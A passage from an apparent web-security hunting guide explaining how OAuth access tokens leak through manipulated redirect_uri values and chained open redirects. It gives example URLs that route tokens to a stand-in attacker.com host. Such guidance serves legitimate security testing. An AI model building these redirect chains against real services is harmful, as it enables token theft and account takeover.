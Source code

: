 The attacker can send the victim a crafted URL that will initiate the OAuth flow, and then run a listener on their server to harvest the leaked tokens:

```nix
identity.com/oauth?
client_id=CLIENT_ID
&response_type=code
&state=STATE
&redirect_uri=https://example.com/callback?next=attacker.com
&scope=email
```

Another way of redirecting the OAuth flow is through a `referer-based` open redirect.

```html
<a href="https://example.com/login_via_facebook">Click here to log in to example.com</a>
```

This will cause the flow to redirect to the callback URL first:

[`https://example.com/callback?#access_token=xyz123`](https://example.com/callback?#access_token=xyz123)

Then it would redirect to the attacker’s domain via the `referer`:

[`https://attacker.com#access_token=xyz123`](https://attacker.com/#access_token=xyz123)

Let’s say the `redirect_uri` parameter permits only further redirects to URLs that are under the [example.com](http://example.com/) domain. If attackers can
find an open redirect **within that domain**, they can still steal OAuth tokens via redirects. Let’s say an unfixed open redirect is on the logout endpoint of [example.com](http://example.com/):

[`https://example.com/logout?next=attacker.com`](https://example.com/logout?next=attacker.com)

By taking advantage of this open redirect, the attacker can form a *chain* of redirects to eventually smuggle the token offsite, starting with the following:

`redirect_uri=https://example.com/callback?[next=example.com/logout?next=attacker.com](http://next%3Dexample.com/logout?next=attacker.com)`

This `redirect_uri` will first cause the flow to redirect to the callback URL:

[`https://example.com/callback?next=example.com/logout?next=attacker.com#access_token=xyz123`](https://example.com/callback?next=example.com/logout?next=attacker.com#access_token=xyz123)

Then to the logout URL vulnerable to open redirect:

[`https://example.com/logout?next=attacker.com#access_token=xyz123`](https://example.com/logout?next=attacker.com#access_token=xyz123)

Then it will redirect to the attacker’s domain.

[`https://attacker.com#access_token=xyz123`](https://attacker.com/#access_token=xyz123)

Sometimes tokens aren’t invalidated periodically and can be used by attackers long after they
are stolen, and remain valid even after password reset. You can test for these issues by using the same access tokens after logout and **after password reset**.

---

# Hunting for SAML Vulnerabilities
